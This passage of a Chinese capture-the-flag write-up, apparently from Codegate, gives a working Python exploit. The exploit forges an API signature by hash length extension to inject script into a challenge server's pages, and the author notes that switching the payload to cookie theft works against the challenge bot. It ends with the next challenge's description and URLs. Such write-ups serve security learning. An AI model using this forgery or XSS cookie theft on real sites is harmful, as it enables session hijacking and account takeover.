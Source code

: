 [![](./img/198479/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_175_/t0116204b1980663057.png)

这与 server 还有关系？感兴趣的师傅可以研究解答一下…

这道题的环境也是可以的，我们随便拿到一个签名，然后用哈希扩展攻击得到想要的签名。

### <a class="reference-link" name="exp"></a>exp

```
import requests
import hashpumpy

url = "http://110.10.147.166/"


def get_sig():
    res = requests.get(url + "view.php", params={'name': 'gml', 'p1': 'gml', 'p2': 'gml'}).content
    sig, msg = res.split("/api.php?sig=")[1].split('"&gt;&lt;/iframe&gt;')[0].split("&amp;q=")
    return sig, msg.decode("base64")


sig, msg = get_sig()

api1 = ['header', 'HTTP/', '102']
api2 = ['body', '&lt;scriptn&gt;alert(1)&lt;/scriptn&gt;', '']

new_msg = "|%s|%s" % (
    ','.join(c.encode("base64").strip() for c in api1), ','.join(c.encode("base64").strip() for c in api2))

# len(salt)=12
new_sig, q = hashpumpy.hashpump(sig, msg, new_msg, 12)
q = q.encode("base64")
print('{}api.php?sig={}&amp;q={}'.format(url, new_sig, q))
```

访问，发现可以弹窗：

[![](./img/198479/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_192_/t010bea6af1dd8f4b77.png)

改变 xss payload 为打 cookie的，提交给 bot，可以打到cookie：

[![](./img/198479/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_164_/t01bdeafff46db1ffaa.png)



## Render

### <a class="reference-link" name="Description"></a>Description

```
It is my first flask project with nginx. Write your own message, and get flag!

http://110.10.147.169/renderer/ 
http://58.229.253.144/renderer/

DOWNLOAD : http://ctf.codegate.org/099ef54feeff0c4e7c2e4c7dfd7deb6e/022fd23aa5d26fbeea4ea890710178e9
```
